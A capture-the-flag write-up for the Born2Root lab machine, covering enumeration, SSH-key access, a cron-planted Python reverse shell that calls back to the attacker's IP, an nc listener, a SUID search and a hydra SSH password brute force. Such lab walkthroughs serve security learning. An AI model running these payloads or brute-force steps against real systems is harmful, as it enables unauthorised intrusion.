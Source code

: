 
---
layout: default
title: x002-Born2Root
nav_order: 2
has_children: true
parent: writeups
grand_parent: DylanGrl Writings
---

## x002-Born2Root
### Enumeration 

####  NMAP
```sh
nmap -A -T4 192.168.148.49 -p-
```

Which gives us : 
```sh
22/tcp    open     ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open     http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34581/tcp6  status
|   100024  1          40205/udp6  status
|   100024  1          41595/udp   status
|_  100024  1          46330/tcp   status
239/tcp   filtered unknown
28289/tcp filtered unknown
46330/tcp open     status  1 (RPC #100024)
59231/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Web 
##### Gobuster 
```sh
gobuster dir -u http://192.168.148.49/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Result : 
```sh
/icons                (Status: 301) [Size: 316] [--> http://192.168.148.49/icons/]
/files                (Status: 301) [Size: 316] [--> http://192.168.148.49/files/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.148.49/manual/]
/server-status        (Status: 403) [Size: 302]    
```


### Access 
Inside the `/icons` folder we found a text file corresponding to a SSH Private Key.
Using the key and the user available on the home page we get access : 
![](attachments/Pasted%20image%2020220219195500.png)

### Privilege Escalation

Checking the crontab we notice the following : 
![](attachments/Pasted%20image%2020220219201218.png)

We could create our own python script to create a reverse shell to the Jimmy account : 
```python
#!/usr/bin/python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.148",53))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

On our local machine we are waiting the connection : 
```sh
nc -lnvp 53
```

![](attachments/Pasted%20image%2020220219202048.png)

Search SUID  from user Jimmy : 
```
find / -perm -u=s -type f 2>/dev/null
```

![](attachments/Pasted%20image%2020220219204629.png)

It shows that the `networker` present in our home folder is in the list.

Analyzing it with the `strings` commands indicate the list of sub-command used : 
![](attachments/Pasted%20image%2020220219204903.png)

None of these command allow something based on the https://gtfobins.github.io/#+suid website. 

Our answer is not there.

####  Brute forcing the access 
From our previous enumeration to get the root access, we have detected that the only user on which we coudln't reach the account was Hadi. 

Based on that, we could try to brute force the access using a generated list from bopscrk : 
![](attachments/Pasted%20image%2020220220161012.png)

Then using hydra : 
```bash
hydra -l hadi -P tmp.txt 192.168.148.49 ssh
```

![](attachments/Pasted%20image%2020220220161046.png)

Login with the user and running su command : 

![](attachments/Pasted%20image%2020220220161214.png)

